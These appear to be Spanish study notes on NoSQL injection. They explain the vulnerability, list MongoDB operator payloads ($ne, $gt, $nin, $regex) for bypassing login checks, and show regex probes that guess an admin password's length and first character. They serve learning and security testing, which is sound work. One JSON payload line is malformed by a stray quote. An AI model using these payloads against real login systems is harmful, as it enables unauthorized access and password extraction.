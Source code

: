 -- - 
Las inyecciones NoSQL son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en documentos en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las bases de datos relacionales.
-- - 
in DATA
```json
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

in JSON:
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {""$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

```json
{
	"username":"admin",
	"password":{
	"$regex":".{29}" --> pregunto si la longitud de la contraseña es = 29
	}				   
}

{
	"username":"admin",
	"password":{
	"$regex":"^a" --> pregunto si la contraseña empieza por a
	}				   
}

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
-- - 
